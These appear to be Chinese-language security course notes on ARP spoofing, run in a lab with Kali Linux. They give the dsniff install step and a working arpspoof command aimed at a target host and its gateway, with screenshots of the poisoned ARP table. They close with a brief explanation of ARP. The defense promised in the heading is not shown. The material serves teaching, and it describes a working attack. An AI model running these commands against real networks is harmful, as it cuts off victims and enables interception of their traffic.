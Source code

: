   > CHCP是一个计算机指令，能够显示或设置活动代码页编号。
  >
  > 代码页 描述：
  >
  > - 65001  UTF-8代码页
  > - 950 繁体中文
  > - 936 简体中文默认的GBK
  > - 437 MS-DOS美国英语







# ==第五天笔记==

# ARP断网攻击与防御

## 攻击

* **原理：将被攻击机器arp缓存表中的网关IP对应的MAC地址转换为kali的IP地址**

* Kali安装arp断网攻击工具

  ```
  apt-get install dsniff
  ```

* 输入攻击代码

  ```
  arpspoof -i eth0 -t 192.168.242.128 -r 192.168.242.2
  # -i后接网卡名称，可以用 IP a查看IP地址前对应的网卡名称
  # -t后接攻击目标的IP地址
  # -r后接攻击目标网关的IP地址
  ```

  <img src="./%E8%AF%BE%E5%A0%82%E7%AC%94%E8%AE%B0.assets/image-20230805093047155.png" alt="image-20230805093047155" style="zoom:67%;" />

  被攻击机

  <img src="./%E8%AF%BE%E5%A0%82%E7%AC%94%E8%AE%B0.assets/image-20230805093114515.png" alt="image-20230805093114515" style="zoom:67%;" />

  ![image-20230805095559005](./%E8%AF%BE%E5%A0%82%E7%AC%94%E8%AE%B0.assets/image-20230805095559005.png)

  被攻击机网关IP的MAC地址被替换成Kali的MAC

  ![image-20230805095549567](./%E8%AF%BE%E5%A0%82%E7%AC%94%E8%AE%B0.assets/image-20230805095549567.png)

  

  ***在使用kali在真实环境下攻击其他机器时其他机器的网关IP不是kali的mac地址是因为kali桥接的时候使用了真实机的网卡***

  

  > 地址解析协议，即ARP（Address Resolution Protocol），是根据IP地址获取物理地址的一个TCP/IP协议。主机发送信息时将包含目标IP地址的ARP请求广播到网络上的所有主机，并接收返回消息，以此确定目标的物理地址；收到返回消息后将该IP地址和物理地址存入本机ARP缓存中并保留一定时间，下次请求时直接查询ARP缓存以节约资源
